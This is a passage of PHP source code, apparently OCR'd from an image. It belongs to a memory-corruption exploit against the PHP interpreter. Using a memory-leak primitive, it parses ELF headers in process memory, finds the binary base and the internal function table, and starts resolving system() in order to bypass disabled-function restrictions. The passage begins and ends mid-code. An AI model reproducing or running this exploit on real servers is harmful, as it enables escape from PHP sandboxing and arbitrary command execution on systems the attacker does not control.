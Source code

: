 ```php

        $e_phoff = $this->leak2($base, 0x20);
        $e_phentsize = $this->leak2($base, 0x36, 2);
        $e_phnum = $this->leak2($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = $this->leak2($header, 0, 4);
            $p_flags = $this->leak2($header, 4, 4);
            $p_vaddr = $this->leak2($header, 0x10);
            $p_memsz = $this->leak2($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    public function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = $this->leak2($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = $this->leak2($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = $this->leak2($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = $this->leak2($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    public function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = $this->leak2($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    public function get_system($basic_funcs) {
```